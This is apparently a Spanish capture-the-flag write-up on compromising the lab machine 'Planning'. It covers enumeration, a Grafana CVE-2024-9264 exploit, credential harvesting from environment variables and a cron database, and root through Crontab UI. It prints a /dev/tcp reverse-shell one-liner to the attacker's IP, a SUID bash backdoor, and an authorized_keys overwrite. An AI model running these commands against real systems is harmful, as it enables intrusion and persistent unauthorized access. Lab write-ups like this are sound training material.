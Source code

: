 # Planning

**Dificultad:** Easy  
**SO:** Linux  

## Información de la máquina
Como en un pentest real, empezamos con las credenciales para la cuenta: `admin / 0D5oT70Fq13EvB5r`.

## Metodología

### Reconocimiento inicial

##### Reconocimiento del SO y puertos con NMAP
Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.68
nmap -sS -p- --min-rate 5000 10.10.11.68 -oG allPortsPlanning
nmap -sCV -p 22,80 -n -nP 10.10.11.68 -oA sondeoPlanning
```

![/etc/hosts](images/planning_dns_local.PNG)
![/etc/hosts](images/planning_dns_local.PNG)
![/etc/hosts](images/planning_dns_local.PNG)

#### Actualizar /etc/hosts (actúa como dns local)
Asociamos el nombre del host (planning.htb) con su dirección IP (10.10.11.68).

```bash
nano /etc/hosts
```

![/etc/hosts](images/planning_dns_local.PNG)

### Reconocimiento web

#### Análisis con Wappalyzer
Permite identificar las `tecnologías` que se utilizan en esta `web`.
![Wappalyzer](images/planning_wappalyzer.PNG)

#### Enumeración de subdirectorios con Gobuster
Al observar que se utiliza PHP, añadimos la opción -x php.

```bash
gobuster dir -u http://planning.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php
```

![Gobuster](images/planning_gobuster.PNG)

#### Enumeración de subdominios con Wfuzz
Primero vemos el comportamiento de los subdominios inválidos.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
```

![Wfuzz](images/planning_wfuzz_inicial.PNG)

Luego le metemos el `hide lines`, para `filtrar` todas las respuestas que tengan 7.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7
```

![Wfuzz filtrado](images/planning_wfuzz_grafana.PNG)

#### Mapeamos el nuevo subdominio en /etc/hosts
Asociamos grafana.planning.htb con la dirección IP del dominio (10.10.11.68).
![Wfuzz filtrado](images/planning_dns_subdominio.PNG)

#### Grafana
Página de login de Grafana en grafana.planning.htb.
![Wfuzz filtrado](images/planning_grafana_web_login.PNG)

Accedemos con las credenciales que nos han proporcionado (admin:0D5oT70Fq13EvB5r) y comprobamos que `Grafana v11.0.0` es vulnerable.
![Grafana](images/planning_grafana_dashboard_v11.PNG)

### CVE-2024-9264 - RCE en Grafana

Vulnerabilidad de ejecución remota de código (RCE) en Grafana v11.0.0.

La `función experimental de SQL Expressions` en Grafana, `permite ejecutar consultas en duckdb` que contienen información del usuario.

El problema radica en que `las consultas no se sanitizan` correctamente antes de ser procesadas por duckdb, lo que `permite una inyección de comandos y vulnerabilidad de inclusión de archivos locales (LFI)`.

Cualquier usuario con permiso de VIEWER o superior puede aprovechar esta vulnerabilidad para ejecutar comandos arbitrarios en el servidor.

Es importante destacar que para que el ataque funcione, `el binario de duckdb debe estar presente en el $PATH de Grafana`, aunque por defecto no viene instalado en las distribuciones estándar.


[Grafana Security Advisory CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264/)


#### Reverse shell
Ejecutamos el exploit y obtenemos una `reverse shell` como root.

```bash
python3 reverse.py --url http://grafana.planning.htb/ --username "admin" --password "0D5oT70Fq13EvB5r" --reverse-ip 10.10.16.19 --reverse-port 1337
```

![Reverse shell](images/planning_exploit.PNG)

[Github-CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)


#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación
Viendo el nombre del `hostname 7ce659d667d7` ya se puede intuir que estamos es un `contenedor docker`, para confirmalo vemos quien es el proceso 1 (en este caso `Grafana` ha sido la aplicación que se lanzó con el contenedor).

![Proceso 1](images/planning_process_1.PNG)

#### LinPEAS
Utilicé `LinPEAS` para enumerar posibles vectores de escalada, aunque lo primero es `subirlo al contenedor`.

![Subir LinPEAS](images/planning_linpeas.PNG)

Encontrando las credenciales para `enzo:RioTecRANDEntANT!` en las variables de entorno (sin linPEAS, con env o printenv).

![Subir LinPEAS](images/planning_linpeas_env.PNG)

#### SSH
Nos conectamos por SSH con el usuario enzo.

```bash
ssh enzo@10.10.11.68
```

![SSH 1](images/planning_ssh_enzo1.PNG)
![SSH 2](images/planning_ssh_enzo2.PNG)

#### Escalada a root
Buscando servicios internos con `netstat -ano`, me encontré con grafana escuchando en el 3000 [Grafana docs](https://grafana.com/docs/grafana/latest/setup-grafana/start-restart-grafana/#docker-compose-example) y otro servicio en el 8000, pero requería autenticación.

![NetStat](images/planning_conexiones_locales.PNG)
![Servicio desconocido](images/planning_servicio_desconocido.PNG)

Tras investigar el sistema un rato, me encontré el archivo `crontab.db` en la ruta `/opt/crontab/crontab.db`. Al parecer hay una tarea programada en JSON que ejecuta un backup diario de un contenedor docker, donde guarda la imagen `root_grafana` en un grafana.tar y después la comprime en un .zip protegido con la contraseña `P4ssw0rdS0pRi0T3c`.

Ahora con esta contraseña, pruebo a autenticarme de nuevo contra el servicio desconocido con diferentes usuarios (enzo, root_grafana y root). Obteniendo un HTTP 200 OK con `root:P4ssw0rdS0pRi0T3c`.

```bash
curl -u enzo:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root_grafana:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root:P4ssw0rdS0pRi0c http://localhost:8000/ -v
```

![Autenticado contra el servicio desconocido](images/planning_autenticacion_servicio_desconocido.PNG)

#### Port Forwarding
Para comprender mejor que hay ahí vamos a redirigir el trafico desde un puerto de mi máquina local hacia el puerto donde está corriendo este servicio en la maquina remota.

```bash
ssh -L 8080:127.0.0.1:8000 enzo@10.10.11.68
```
![Port Forwarding](images/planning_port_forwarding.PNG)

#### Crontab UI
El servicio que corre en localhost:8000 es un Crontab UI desde donde se puede ejecutar comandos como root.

Maneras de convertirnos en root:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1337 0>&1'
```

![Root - Simple reverse](images/planning_crontab_simple_reverse.PNG)

```bash
cp /bin/bash /usr/local/bin/upupup && chmod 4755 /usr/local/bin/upupup
cp /bin/bash /usr/local/bin/upupup && chmod u+s /usr/local/bin/upupup
```

![Root - Bit SUID](images/planning_crontab_suid_shell.PNG)

```bash
echo 'ssh-rsa AAAAB3Nz...LJzNu/ZQ== kali@kali' > /root/.ssh/authorized_keys
```

![Root - SSH authorized_keys](images/planning_crontab_ssh_pub.PNG)

### Limpieza del entorno
Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.

![Limpieza](images/planning_limpieza_entorno.PNG)
